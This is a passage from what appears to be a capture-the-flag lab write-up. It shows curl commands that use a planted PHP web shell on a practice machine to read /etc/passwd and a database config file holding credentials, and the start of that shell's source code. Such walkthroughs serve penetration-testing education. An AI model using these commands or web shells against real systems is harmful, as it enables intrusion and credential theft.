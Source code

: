 
This user can’t read in `/home/sysadmin`.

I can also get a file, like `/etc/passwd`:

    
    
    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/etc/passwd"
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    ...[snip]...
    sysadmin:x:1000:1000:compromise:/home/sysadmin:/bin/bash
    mysql:x:111:113:MySQL Server,,,:/var/lib/mysql:/bin/bash
    red:x:1001:1001::/home/red:/bin/false
    

#### Database

It’s really interesting to note that in the `/etc/passwd` file, the user mysql
has a shell, `/bin/bash`. That’s unusual, as `mysql` typically sets the mysql
user’s shell to `/bin/false`. Given the hacked theme of the box, it’s worth
looking at this further.

Looking at mysql’s home directory doesn’t return anything, which indicates a
permissions issue. I can try to check out the database, especially to see if
it can execute. I’ll pull the config file at the same path I noted in the
backup. The DB password is still “changethis”:

    
    
    root@kali# curl -s -G http://10.10.10.207/shop/admin/../vqmod/xml/1FFFK.php --data-urlencode "file=/var/www/html/shop/includes/config.inc.php"
    <?php
    ...[snip]...
    // Database
      define('DB_TYPE', 'mysql');
      define('DB_SERVER', 'localhost');
      define('DB_USERNAME', 'root');
      define('DB_PASSWORD', 'changethis');
      define('DB_DATABASE', 'ecom');
      define('DB_TABLE_PREFIX', 'lc_');
      define('DB_CONNECTION_CHARSET', 'utf8');
      define('DB_PERSISTENT_CONNECTIONS', 'false');  
    ...[snip]...
    

I’ll add some code to my PHP that will run DB queries:

    
    
    sploit = """<?php
    if (isset($_REQUEST['file'])) { 
        echo file_get_contents($_REQUEST['file']);
    } 
    
    if (isset($_REQUEST['dir'])) {
        print_r(scandir($_REQUEST['dir']));
    }
    
